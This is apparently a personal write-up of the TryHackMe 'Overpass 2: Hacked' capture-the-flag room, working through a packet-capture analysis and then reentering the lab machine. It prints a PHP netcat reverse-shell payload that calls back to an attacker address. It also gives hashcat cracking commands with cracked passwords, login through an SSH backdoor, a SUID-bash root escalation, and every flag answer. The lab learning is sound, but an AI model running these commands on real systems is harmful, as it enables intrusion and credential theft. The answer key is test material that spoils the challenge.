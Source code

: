 # Overpass 2: Hacked

The flags are structured to basically walk us through this room.

## Forensics: Analyze the PCAP

I’ve not actually used Wireshark outside of the TryHackMe: Wireshark 101 “room” (and a few short digressions in other rooms), so I’m honestly a little worried about my abilities here…

Filtering the PCAP file for HTTP requests reveals a single POST from 192.168.179.145 to http://192.168.170.159/development/upload.php. A subsequent request from 192.168.179.145 pulls the directory listing of /development/uploads/, and then GETs /development/uploads/payload.php. This suggests that 192.168.179.145 is the ”attacker” and 192.168.179.145 is the target system.

FLAG 1: What was the URL of the page they used to upload a reverse shell? — /development/

We can save off this POST request to get at the uploaded payload.php file, which turns out to have the contents:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

FLAG 2: What payload did the attacker use to gain access? — `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

This is popping a simple reverse shell through netcat that connects back to 192.168.170.145:4242, which would seem to confirm that this was the machine used by the attacker.

This means that penetration occurs when this file is requested in packet 27.

Looking at subsequent TCP packets, we can see what the attacker typed in the packets going from 192.168.170.145 → 192.168.170.159, and the responses in the packets going from 192.168.170.159 → 192.168.170.145. Requests/Responses coming through netcat use the TCP PSH flag, so we can filter by `tcp.port == 4242 and tcp.flags.push` to zoom in on this conversation.

The attacker eventually issues `su james` to elevate privileges  (packet 71), and a few packets down we can see `james`’s password.

FLAG 3: What password did the attacker use to privesc? — `whenevernoteartinstant`

In packet 112 the attacker cats /etc/shadow, and we get a full dump in packet 114. They then issue `git clone https://github.com/NinjaJc01/ssh-backdoor`, generate an SSH private key, and switch to the included `backdoor` binary, at which point we lose the thread.

FLAG 4: How did the attacker establish persistence? — https://github.com/NinjaJc01/ssh-backdoor

Returning to packet 114, we can use Copy > Copy Bytes as Printable Text to pull the contents of /etc/shadow (+ a little garbage).  After a little cleanup, we have 5 users with passwords (including `james`, which we know already).

We extract the hashes and then throw Hashcat at this using the suggested “fasttrack” wordlist.

```bash
hashcat -m 1800 \
        -O hashes.txt /usr/share/wordlists/fasttrack.txt
```

Four out of the five passwords turn out to be crackable:

```
paradox:secuirty3
szymex:abcd123
bee:secret12
muirland:1qaz2wsx
```

This ironically *doesn’t* include `james`!

FLAG 5: How many of the system passwords were crackable? — 4

## Research: Analyze the Code

It turns out that https://github.com/NinjaJc01/ssh-backdoor is a real thing, with the code itself living in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go.

FLAG 6: What's the default hash for the backdoor? — `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

FLAG 7: What's the hardcoded salt for the backdoor? — `1c362db832f3f864c8c2fe05f2002a05`

The hashPassword() function here takes the SHA-512 hash of the provided password + the salt. The default has is overridden using the `-a` flag. We can see that the attacker used this flag when the `backdoor` was called in packet 3479.

```bash
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

FLAG 8: What was the hash that the attacker used? — `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

We can use Hashcat to again crack this.

```bash
hashcat \
	-m 1710 \
	-O 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 \
	   ~/.local/share/red-team/wordlists/rockyou.txt
```

FLAG 9: What's the password? — `november16`

## Attack: Get Back In!

The last bit of this CTF uses a server, which for this run is at 10.10.114.161. Just visiting that page gives us our first flag.

FLAG 10: What message did the attacker leave as a heading when they defaced the website? — H4ck3d by CooctusClan

We’ll get back in using the backdoor that the attacker set up. From the backdoor code we know that the SSH server is running on port 2222, and there don’t seem to be any user checks. So…

```bash
env -u SSH_AUTH_SOCK -u SSH_AGENT_PID \
	ssh -p 2222 user@10.10.114.161
```

…lets us in as expected (with the password of `november16`).

The user flag is in /home/james/user.txt.

FLAG 11: What's the user flag? — `thm{d119b4fa8c497ddb0525f7ad200e6567}`

Unfortunately, none of the passwords we cracked earlier work anymore. After checking a couple of possible exploits to get around this, I decided just to see what SUID binaries were on the system (figuring that I’d check them against GTFOBins).

```bash
find / -type f -perm -u+s -exec ls -l "{}" \;
```

This turned up an unusual file — /home/james/.suid_bash.  Could this be… an SUID copy of Bash? Indeed it is!

```bash
/home/james/.suid_bash -p # Root shell!
```

The root flag is then in /root/root.txt.

FLAG 12: What's the root flag? — `thm{d53b2684f169360bb9606c333873144d}`

ELAPSED TIME: 1 h 43 min

## References

* [TryHackMe: Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked)
* [TryHackMe: Wireshark 101](tryhackme-wireshark-101.md)
* [Using “netcat”](netcat.md)
* [Using Hashcat](hashcat.md)
* [ssh-backdoor / main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)
* [Exploiting Bash](exploiting-bash.md)
* [Exploiting ViM](exploiting-vim.md)
* [GTFOBins](https://gtfobins.github.io/)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 14, 2021
